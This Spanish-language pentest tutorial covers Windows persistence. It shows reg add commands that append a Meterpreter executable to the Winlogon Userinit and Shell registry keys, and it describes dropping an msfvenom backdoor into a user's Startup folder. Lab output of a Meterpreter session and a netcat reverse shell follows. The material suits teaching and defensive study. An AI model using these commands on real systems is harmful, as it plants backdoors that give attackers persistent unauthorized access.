


## Persistencia de usuarios con privilegios elevados

### Winlogon

**WinLogon** es el proceso de administrar las aperturas y cierres de sesión, el lanzamiento y la detención de los protectores de pantalla, el bloqueo/desbloqueo de la estación de trabajoy la detención/reinicio de la máquina.

Por ejemplo, cuando se inicia sesión el proceso WinLogon es responsable de cargar su perfil de usuario en el registro. Por lo tanto cada cuenta de usuario de Windows depende de WinLogon para usar las claves de HKEY_CURRENT_USER, que es unica para cada usuario.

### Valores de clave predeterminado

Sus valores de registro se encuentran en HKEY_LOCAL_MACHINE.  
Podemos encontrarlo en la siguiente ruta abriendo ele ejecutable `regedit.exe`.



Aqui entre muchas otras claves, vemos que tenemos claves llamadas `Userint` y `Shell` de tipo **REG_SZ**. Usaremos estas claves para ganar persistencia en la máquina.

### Persistencia usando Userinit Key

Como tenemos un shell de sistema, usamos el comando "reg query" para obtener información sobre la clave **Userinit** de WinLogon.

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    userinit    REG_SZ    C:\Windows\system32\userinit.exe,
```

Añadimos nuestro ejecutable malicioso (meterpreter.exe).

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d "Userinit.exe, meterpreter.exe" /f
```

Realizamos la consulta nuevamente para verificar los cambios

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    userinit    REG_SZ    Userinit.exe, meterpreter.exe
```




Ganando una shell


```
meterpreter > getuid
Server username: WIN7\win7bits
meterpreter > sysinfo
Computer        : WIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

### Persistencia usando Shell Key

Obtuvimos nuestra persistencia usando la clave Userinit. Ahora centremonos en otra clave que se puede utilizar para lograr la persistencia en la máquina destino. Es la clave Shell. De forma predeterminanda, contiene `explorer.exe` como se mostró en la imagen anterior.

modificamos los valores del registro similar al anterior y de esa forma tambien tendriamos un shell persistente

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, meterpreter.exe" /f
```

----
----

## Persisistemcia de usuarios con bajos privilegios

La persistencia con privilegios bajos significa que el proveedor de penetración ganó y usa técnicas de persistencia para mantener su acceso al sistema de destino bajo un perfil/cuenta de usuario normal(un usuario de dominio sin derechos administrativos)

### Persistencia de la carpeta inicio

Suponiendo que no consideramos que la escalada de privilegios es necesaria y solo queremos tener acceso al sistema en caso de que el usuarioreinicie la máquina , el metodo simple sería mover la puerta trasera a la carpeta de inicio.  
La ruta de la carpeta de inicio es: `C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`.  
Busque esa ruta y cargue el binario que generó con msfvenom.


El resultado seria obtener una shell con el usuario donde se haya subido el ejecutable.

```
❯ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.102] 49161
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
win7\win7bits
```
